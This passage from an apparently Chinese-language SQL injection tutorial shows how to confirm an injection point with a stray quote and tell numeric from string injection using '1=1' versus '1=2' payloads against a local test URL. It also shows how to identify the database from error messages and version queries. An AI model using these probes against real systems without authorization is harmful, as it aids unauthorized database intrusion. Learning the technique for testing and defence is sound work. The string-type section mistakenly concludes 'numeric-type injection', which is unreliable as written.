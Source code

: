 ### 3.1 判断是否存在sql注入

`https://127.0.0.1/SQL.php?id=1'`

如果页面返回错误，则存在 SQL 注入；原因是无论字符型还是整型都会因为单引号个数不匹配而报错

### 3.2 判断注入类型

{{< admonition abstract >}}
数字型：

构造url

`https://127.0.0.1/SQL.php?id=1 and 1=1`

`https://127.0.0.1/SQL.php?id=1 and 1=2`

查看结果是否相同，若1=1正常返回信息；1=2没有正常返回信息则证明存在数字型注入

{{< /admonition >}}

{{< admonition abstract >}}
字符型：

构造url

`https://127.0.0.1/SQL.php?id=1' and '1'='1'`

`https://127.0.0.1/SQL.php?id=1' and '1'='2'`

查看结果是否相同，若'1'='1'正常返回信息；'1'='2'没有正常返回信息则证明存在数字型注入

{{< /admonition >}}

### 3.3 SQL 数据库的类型

#### 3.3.1 通过报错信息

- MySQL

> you have an error in your SQL syntax,check the manual that corrsponds to your mysql server version for the tifht syntax to use near ” at line x

- Access

> Microsoft JET Database…

- MSSQL

> Microsoft ODBC Database…

#### 3.3.2 数据库标志性信息

**sql server**：`select @@version--`

**Oracle**：`select banner from v$version`

**mysql**：`select @@version，version()-- ，length(user)>0正常`

**postgresql**：`select version()--`
